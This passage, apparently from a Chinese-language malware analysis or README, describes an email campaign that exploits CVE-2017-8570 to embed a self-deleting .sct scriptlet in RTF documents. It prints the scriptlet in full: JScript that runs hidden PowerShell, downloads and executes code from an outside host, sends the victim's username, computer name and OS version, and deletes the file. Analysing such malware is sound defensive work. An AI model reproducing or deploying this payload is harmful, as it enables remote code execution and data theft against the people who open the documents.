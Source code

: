 <img src="./README.assets/20200611image-20200507152621697.png" style="zoom:25%;" />



每一次邮件发送都会动态生成随机15位随机字符命名的sct文件

```powershell
$filename=-join([char[]](48..57+65..90+97..122)|Get-Random -Count 15)+".sct"
```

然后通过CVE-2017-8570漏洞利用，将sct文件写入RTF文档，在文档打开时Package对象中包含的`.sct`文件脚本文件会自动释放至临时目录，该`.sct`文件将由RTF文档中的第二个objdata加载执行，执行后会自身删除

`.sct`文件内容：

```xml
<?XML version="1.0"?>
<scriptlet>

<registration
    description="fjzmpcjvqp"
    progid="fjzmpcjvqp"
    version="1.00"
    classid="{204774CF-D251-4F02-855B-2BE70585184B}"
    remotable="true"
    >
</registration>

<script language="JScript">
<![CDATA[
        new ActiveXObject("WScript.Shell").Run('cmd /c powershell -w hidden IEx(New-Object Net.WebClient).DownLoadString(\'http://t.t\'+\'r2q.com/7p.php?0.7*mail_doc*%username%*%computername%*\'+[Environment]::OSVersion.version.Major);bpu (\'http://t.t\'+\'r2q.com/mail.jsp?doc_0.7\')&del %tmp%\\GUOtwYxlpzKPBSh.sct',0,1);window.close();
]]>
```